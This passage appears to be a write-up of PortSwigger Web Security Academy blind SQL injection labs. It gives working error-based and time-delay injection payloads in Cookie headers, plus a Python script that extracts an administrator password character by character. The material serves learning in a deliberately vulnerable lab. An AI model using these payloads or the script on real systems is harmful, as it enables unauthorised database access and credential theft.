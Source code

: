 To find the length of the string I used:

```http
Cookie: TrackingId=pf'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+to_char(1/0)+END+FROM+users--; session=gkxkpzrQycB4SAgna7wWvuvjvZWuzWBs
```

I created the following script in order to automate the process (it could be helpful for the next labs).

```python
import requests
import string

URL = 'https://ac041f8b1e618e4680fc05ca00e8006a.web-security-academy.net/filter?category=Gifts'
session = "gkxkpzrQycB4SAgna7wWvuvjvZWuzWBs"
password = ""

for index in range(1, 21):
    for character in string.printable:
        tracking_id = "pf'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,%d,1)='%s')+THEN+to_char(1/0)+END+FROM+users--" % (
            index, character)
        cookies = dict(TrackingId=tracking_id, session=session)
        r = requests.get(URL, cookies=cookies)

        if r.text == "Internal Server Error":
            print(character)
            password += character
            break

print("Password is: %s" % password)
```

### Lab 3

> Blind SQL injection with time delays

To solve this lab, I had to try different techniques. The one that work is the following:

```txt
Cookie: TrackingId=CAPIR'%3bSELECT+pg_sleep(10)--; session=GKbOcdGjQcpqHnSoKbS928PPh2548Jdy
```

`%3b` is the encoded version of `;`. I use this character in order to close the first query and start the second one, like this:

```sql
SELECT username, passwd FROM users WHERE tracking_id='CAPIR';SELECT+pg_sleep(10)--'
```

This is a `stacked query`. Bear in mind that not all database support this syntax.

### Lab 4

> Blind SQL injection with time delays and information retrieval
